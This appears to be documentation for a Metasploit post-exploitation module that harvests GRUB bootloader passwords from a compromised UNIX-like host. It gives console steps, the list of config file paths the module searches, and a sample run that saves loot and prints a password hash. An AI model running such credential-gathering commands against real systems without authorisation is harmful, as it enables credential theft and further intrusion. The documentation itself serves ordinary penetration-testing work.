 # Gather GRUB Passwords

Reads all passwords from GRUB configuration files on UNIX-like machines.

## Vulnerable Application

Any UNIX-like system with a `shell` or `meterpreter` session using GRUB.

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/grub_creds```
  3. Do: ```set SESSION [SESSION_ID]```, replacing ```[SESSION_ID]``` with the
     session number you wish to run this one.
  4. Do: ```run```
  5. If the system has readable GRUB configuration files containing a password,
     they will be printed out.

## Options

### FILENAME

A string that can be used to specify an additional file to check after the
usual places.

### VERBOSE

A boolean that, when set, will provide more details on what is being checked.
_(Note: this option is defined elsewhere in metasploit, but this module can make
use of it.)_

## Scenarios

There are many places where a user might place the password that GRUB uses, so
inserting a password line into any of these locations will work without any
additional configuration:

```
   /boot/grub/grub.conf
   /boot/grub/grub.cfg
   /boot/grub/menu.lst
   /boot/grub2/grub.cfg
   /boot/grub2/user.cfg
   /etc/grub.conf
   /etc/grub.d/*
   /etc/grub/grub.cfg
   /mnt/sysimage/boot/grub.conf
   /mnt/boot/grub/grub.conf
   /rpool/boot/grub/grub.cfg
```


Using a Metasploitable 2 VM (running Ubuntu 8.04), you can add the line
`password topscret` to `/boot/grub/menu.lst` to easily see this module in
action.

### Meterpreter

Typical run against Ubuntu 18.04 LTS

  ```
msf exploit(handler) > use post/multi/gather/grub_creds
msf post(grub_creds) > set SESSION 1
SESSION => 1
msf post(grub_creds) > run

[*] Searching for GRUB config files..
[*] Reading /boot/grub/grub.cfg
[*] Reading /etc/grub.d/40_custom
[*] Reading /etc/grub.d/00_header
[*] Reading /etc/grub.d/20_linux_xen
[*] Reading /etc/grub.d/10_linux
[*] Reading /etc/grub.d/README
[*] Reading /etc/grub.d/01_users
[+] /etc/grub.d/01_users saved to /home/bcook/.msf4/loot/20191029041304_default_127.0.0.1_grub.config_755243.txt
[*] Reading /etc/grub.d/41_custom
[*] Reading /etc/grub.d/30_os-prober
[*] Reading /etc/grub.d/05_debian_theme
[*] Reading /etc/grub.d/30_uefi-firmware
[+] Found credentials

Grub Credential Table
=====================

 Username             Password
 --------             --------
 putyourusernamehere  grub.pbkdf2.sha512.10000.CB9E1ED1050D0AFBC6EC3B75413FB288AD255B960C6DBA31C00A03AC286847DF8B1DEE167ED54316FD62EEAFE4A617959F90249849FBCB562AC27E68A6D59F90.E6AB5AE4B5E4EF375218A620A798002F5B38EE5F31B549A66AF5533A7931419BAC30E2305A95113F60BE116C9F3FE22126FE7768D095DE6B9BCDC55632400B52
  ```
```

